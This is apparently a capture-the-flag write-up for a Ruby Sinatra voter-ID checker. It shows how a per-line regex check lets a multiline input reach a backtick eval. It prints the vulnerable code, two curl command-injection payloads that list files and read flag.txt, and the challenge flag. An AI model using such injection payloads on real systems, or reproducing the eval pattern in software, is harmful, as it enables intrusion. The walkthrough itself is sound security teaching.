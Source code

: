 # Verificiation or Execution - web

## Challenge

Look, this is supposed to be a simple checker for an ID to make sure its actually part of the early voting system, yet someone gained access to my system?!

There's only one field and I'm sure my regex is perfect!

## Solve

For this challenge, we are presented with a simple web application with a single text box where we can enter a `voter ID`: 

<img width="812" height="482" alt="vveeve" src="https://github.com/user-attachments/assets/da64bc56-8a2c-4601-89fd-1de409d6fe28" />


If we send a POST request without the `voter_id` parameter set, we can throw an error and hit the debug page:

<img width="897" height="566" alt="ve" src="https://github.com/user-attachments/assets/05069707-3f13-4e7d-a7a8-8528d036ec31" />


We can see the source code logic behind the application, and note that the webapp is built with Ruby using the Sinatra framework:

```ruby
    get '/' do
      erb :index
    end

    post '/' do
      voter_id = params[:voter_id]

      if !voter_id.match(/^[A-Za-z]{4}\d{4}$/)

        result = "Error: Invalid voter ID format. Expected 4 letters followed by 4 digits. Debug: did not pass /^[A-Za-z]{4}\\d{4}$/"
      else
        begin
          result = eval("`./votercheck.sh #{voter_id}`")
        rescue => e
          result = "Error: #{e.message}"
        end
```

The regex constrains us to strictly 4 letters followed by 4 numbers. However, this [article](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-41) explained Ruby's weird regex behaviour which alllows us to get the flag:

> "The key vulnerability is that the match method in Ruby will return a match if any line in a multiline string matches the pattern."

So, if we send a multiline string where one of the lines matches the regex, and the other contains malicious input our input will be processed in `eval()`:

- First checked file structure with:

```bash 
curl -X POST http://3.105.27.130:8002/ -d $'voter_id; ls;\nABCD1234'
```

<img width="933" height="618" alt="ve1" src="https://github.com/user-attachments/assets/72798a97-4bdc-4e79-8538-0cc02fd8f8c3" />


- And then read the flag with:

```bash
curl -X POST http://3.105.27.130:8002/ -d $'voter_id; cat flag.txt;\nABCD1234'
```

<img width="919" height="514" alt="ve2" src="https://github.com/user-attachments/assets/34eefdff-9fcb-40ab-a243-330751d631f3" />


`secedu{h0_b0y_th3y'r3_in_we'3r_in_tr0ubl3_ar3n't_w3}`
